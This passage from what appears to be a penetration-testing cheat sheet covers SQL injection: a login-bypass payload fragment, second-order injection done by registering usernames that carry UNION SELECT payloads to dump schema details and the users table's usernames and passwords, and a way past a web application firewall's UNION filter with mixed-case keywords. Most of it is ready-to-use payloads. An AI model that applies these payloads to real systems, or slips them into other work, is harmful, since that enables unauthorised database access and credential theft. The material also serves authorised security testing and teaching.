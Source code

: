 ```
admin")) -- -

```

Note: in some scenarios, the username or password field are injectable but doesn't necessarily lead to admin access. If you manage to find one of the login fields to be injectable but not able to login as admin, you can start sqlmap to leak information and dump database entries.

#### Second Order SQL Injection

\#Its the type of injection that occurs on a different page than the page where the SQL payload was inserted.

\#Say you have a login form \[login.php] and another page on the website such as \[products.php]. In second order SQL injection, If you try to inject the login forms with SQL payloads, the website will store the queries in the database but won't execute them untill you visit the \[products.php] page where the SQL payload you insterted earlier will get executed.

\#So one rule of thumb in that type of SQL injection is to register a regular user and test out all other pages of the web application.

\#This type of SQL injection can be exploited by using a SQL payload as a username to register with so that the payload gets executed at every other page in the website where it uses the username.

\#You could register as many usernames as you want using different SQL payload every time to return the structure of the database along with dumping all sensitive database records.

\#Example usernames you can use to register with

```SQL
b') -- - [used to invoke a sql error]

') UNION SELECT table_name, table_schema FROM information_schema.columns # [displaying table-names]

') UNION SELECT table_name, column_name FROM information_schema.columns # [displaying column names]

username:') UNION SELECT username, password from users # [Dumping username and password records from userstable]
```

Don't forget that these payloads won't get executed untill you visit the vulnerable page.

Visit \[SQL injection with SQLmap] to know how to do this with \[sqlmap]

#### Bypassing SQL Filters

**UNION Filters**

Lets say we are testing a login form and it returns an error whenever we try to execute UNION SELECT. This suggest that there is a WAF filtering the queries so we would use Union instead.

```SQL
Email=’ UNion select 1,2,3,concat(command, "@test.com") -- -
```

```SQL
Email=' UNion select 1,2,3,concat(table_name, "@test.com") FROM information_schema.tables where table_schema="databasename" limit 1,1 -- -
```
